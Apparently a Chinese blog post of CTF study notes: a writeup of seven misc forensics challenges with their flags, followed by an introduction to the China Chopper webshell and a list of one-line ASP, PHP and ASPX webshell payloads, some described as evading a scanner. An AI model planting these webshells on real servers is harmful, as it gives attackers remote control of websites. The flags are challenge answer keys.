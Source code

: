 # misc 2020/12/13

## 日常writeup

1、菜刀666

2、[GXYCTF2019]佛系青年

伪加密，打开是与佛论禅

flag{w0_fo_ci_Be1}

3、认真你就输了

下载得到一个xls文件，打开有一堆坐标和一个坐标轴

还有一个提示The flag is under this nicely made chart

搜了一下才知道xls可以用压缩软件打开，在chart文件夹里面发现有

flag.txt

flag{M9eVfi2Pcs#}

4、藏藏藏

将图片后缀改成zip，解压后得到二维码，扫了之后得到

flag{you are the best!}

5、EasyBaBa

打开是图片，改后缀变成zip，解压得到一个avi，用**kinovea**一帧一帧看截图再扫二维码，拼接得到

flag{imagin_love_Y1ng}

6、你猜我是个啥

拖到后面直接有

flag{i_am_fl@g}....

7、神奇的二维码

下载得到一个二维码，扫了之后

swpuctf{flag_is_not_here}

改后缀得到压缩包，解压得到

YXNkZmdoamtsMTIzNDU2Nzg5MA==

是base64编码，解码后得到

asdfghjkl1234567890

这不是和键盘第二列一样吗，提交没用，寻找一下键盘QWE加密法

得到KLMNOPQRS1234567890，还是没用，应该是方向错了

放到kali里面binwalk一下，发现有4个压缩包

直接

> binwalk -e 1.png

分别是716A.rar 7104.rar 17012.rar 18994.rar

第一个打开是加密的，有一个flag.txt

第二个打开后解密就是前面的asdfghjkl1234567890

第三个打开后是一个flag.doc

一串乱码，没有=不像base64解码

第四个加密了打不开，里面有一段MP3

猜测是莫斯密码

实在想不出来，看了writeup才知道flag.doc里面是经过20次base64编码的，接出来就是第四个压缩包的密码，然后解出摩斯密码

flag{morseisveryveryeasy}

## 中国菜刀

>  中国菜刀是一款专业的网站管理软件，用途广泛，使用方便，小巧实用。只要支持动态脚本的网站，都可以用中国菜刀来进行管理！在非简体中文环境下使用，自动切换到英文界面。UNICODE方式编译，支持多国语言输入显示。

主要功能：

+ 文件管理
+ 虚拟终端
+ 数据库管理

### 一句话木马

一句话木马就是一句简单的脚本语言

> **asp一句话木马：
> **　　 <%execute(request("value"))%>
> 　　**php一句话木马：
> **　　 <?php @eval($_POST[value]);?>
> 　　**aspx一句话木马：
> **　　<%@ Page Language="Jscript"%>
> 　　<%eval(Request.Item["value"])%>
>
> **其他一句话木马：**
>
> <%eval request("value")%>
> 　　<%execute request("value")%>
> 　　<%execute(request("value"))%>
> 　　<%If Request("value")<>"" Then Execute(Request("value"))%>
> 　　<%if request ("value")<>""then session("value")=request("value"):end if:if session("value")<>"" then execute session("value")%>
> 　　<SCRIPT language=VBScript runat="server">execute request("value")</SCRIPT>
> 　　<%@ Page Language="Jscript"%>
> 　　<%eval(Request.Item["value"],"unsafe");%>
> 　　**可以躲过雷客图的一句话木马：**
> 　　<%
> 　　set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
> 　　ms.Language="VBScript"
> 　　ms.AddObject "Response", Response
> 　　ms.AddObject "request", request
> 　　ms.ExecuteStatement("ev"&"al(request(""value""))")
> 　　%>
> 　　**不用'<,>'的asp一句话木马：**
> 　　<script language=VBScript runat=server>execute request("value")</script>
> 　　**不用双引号的一句话木马：**
> 　　<%eval request(chr(35))%>

